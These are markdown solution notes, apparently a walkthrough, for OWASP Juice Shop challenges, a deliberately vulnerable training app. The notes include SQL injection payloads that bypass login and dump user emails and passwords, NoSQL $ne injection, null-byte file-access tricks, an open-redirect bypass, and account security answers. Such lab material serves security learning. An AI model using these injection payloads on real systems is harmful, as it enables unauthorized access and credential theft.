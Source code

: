 ## Access Log
- use gobuster to find /support/logs
- download the log file

## Allowlist Bypass
-  http://127.0.0.1:3000/redirect?to=https://headfullofciphers.com?another=https://github.com/bkimminich/juice-shop

## Christmas Special
- capture adding to basket
- change productId to 10
- checkout

## Easter Egg
- navigate to /ftp/
- download eastere.gg%2500.md

## Ephemeral Accountant
- capture login request
- replace email field with "' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--"

## Forgotten Developer Backup
- navigate to /ftp/
- download package.json.bak%2500.md

## Forgotten Sales Backup
- navigate to /ftp/
- download coupons_2013.md.bak%2500.md

## GDPR Data Theft
- create an account similar to admin or someone else
- like odmin@juice-sh.op
- login and view the data export  

## Leaked Unsafe Product
- capture /rest/products/search
- add '))-- to the end to see all products
- Hueteroneel within Eurogium Edule

## Legacy Typosquatting
- download .bak file from /ftp/
- find a fake url
- report in customer feedback https://www.npmjs.com/package/epilogue-js

## Login Bjoern
- view /administration
- email is bjoern.kimminich@gmail.com
- find 'oath' in main.js
- open js console
- function to find password btoa(t.email.split('').reverse().join(''))
- password: bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=

## Misplaces Signature File
- navigate to /ftp/
- download suspicious_errors.yml%2500.md

## Nested Easter Egg
- navigate to /ftp/
- download eastere.gg%2500.md 
- copy code and paste in to cyberchef
- /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
 
## NoSQL Manipulation
- capture commenting on a product
- PATCH endpoint /rest/products/review
- change or add 'id' field to {"$ne":-1} 

## Poison Null Byte
- download a file from /ftp/ with %2500.md

## Reset Bender's Password
- forgot password
- bender@juice-sh.op
- answer is Stop'n'Drop

## Reset Uvogin's Password
- email is uvogin@juice-sh.op
- search his twitter
- answer is Silence of the Lambs

## Steganography
- enter Pickle Rick into customer feedback
- the hidden picture is in the images on About Us

## User Credentials
- capture GET /rest/products/search?q=
- add banana'))UNION%20SELECT%20id,email,password,'4','5','6','7','8','9'%20from%20Users--

## Vulnerable Library
- send sanitize-html 1.4.2 into customer feedback